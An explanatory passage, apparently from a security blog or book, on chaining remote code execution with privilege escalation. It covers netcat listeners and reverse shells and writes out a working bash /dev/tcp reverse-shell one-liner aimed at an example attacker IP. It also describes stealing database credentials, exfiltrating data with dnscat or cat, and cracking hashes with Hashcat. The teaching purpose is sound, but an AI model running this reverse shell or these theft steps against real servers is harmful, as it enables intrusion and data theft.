 If you combine remote code execution with local privilege escalation, you can do pretty much anything on a server. Remote code execution can allow you to do something like create a reverse shell, and from the reverse shell, you can find out what version of Linux the server is running, and then you can do privilege escalation so you can get a root shell, and then do whatever you want. Easier said than done though. But that’s the thing about security vulnerabilities: an individual security issue might not seem so bad, but most hacking involves combining multiple different security issues. 

Security researchers will often open calc.exe (the calculator) on Windows to demonstrate remote code execution. This is kind of like the Windows RCE equivalent to alert('XSS');.

**Reverse TCP listeners** – if you want to have a reverse shell (a shell which connects to you from the compromised web server), you first need to set up a reverse TCP listener, such as with netcat a.k.a. nc. A listener “listens” for incoming data. Once you have a listener set up, then you can execute code on the insecure server that will establish a reverse shell at a given IP address.

**Reverse shells** – if you’re on macOS, you can use iTerm2 or Terminal in order to run shell commands. You have a shell. It’s a text-based way of controlling a computer. On Windows, you can use Git Bash to use a bash shell. A shell is a very powerful tool on a computer. There are plenty of legitimate uses for them, and some bad uses. A reverse shell is a shell that an attacker can use to remotely control a server. 

Let’s say you’re a hacker and your IP address is 10.1.2.3, just as an example. And you have a netcat listener set up on port 80. This is what you’d do on the compromised server in order to establish a reverse shell:

```
bash -i >& /dev/tcp/10.1.2.3/80 0>&1
```

In many cases, a reverse shell will be from an unprivileged user account, or perhaps a service account, like from the apache user for the apache server. In that case, you won’t be able to run just any old command, since you don’t have root… not yet, at least. But even so, there are plenty of things that can be done with a reverse shell, with or without elevated privileges. 

If you get code execution on a server, such as if there’s a LAMP server with a remote file inclusion vulnerability and you include a web shell, you can then get a reverse shell, and from there, you can try and find a config file that’s used with a PHP script in order to interact with a database (or even just cat a .php script if the developer was lazy and hard-coded the credentials for the MySQL database), and then you can use those credentials to look at what’s in the database, and exfiltrate data using something like dnscat to make it less obvious that you’re exfiltrating data. Or, depending on how bad the security and monitoring on the server is, you might not even have to use dnscat, and instead you can just use a SELECT query and output it to a file, and then copy the file over using the reverse shell, maybe even something super primitive like cat and then just copying and pasting the shell output. From there, that data, such as from a users table, might either have payment info, or just login info. An attacker can use that info to log into accounts, or to sell it on the dark web for cryptocurrency. If the developer did their due diligence, they might have hashed passwords, and in that case, you’ll have to run a tool like Hashcat in order to crack the hashes before you can use them. Hashcat can run faster on a desktop with a dedicated graphics card. It’s computationally-intensive so I don’t recommend running it on a laptop. Hash cracking is also much slower with CPUs compared to GPUs. Hash-cracking is suitable for GPUs because of how easily parallelizable it is.

Some people will take the lazy way and just try logging into a phpMyAdmin login page on a server because they can directly view database stuff that way. I would know – I monitor my server logs, and see just how lazy and unskilled many attempted hackers are. In general, most people in life take the path of least resistance. That includes hacking. Instead of some elaborate exploit chain or zero-days, most people will try the easiest kinds of security issues, which many people refer to as low-hanging fruit.
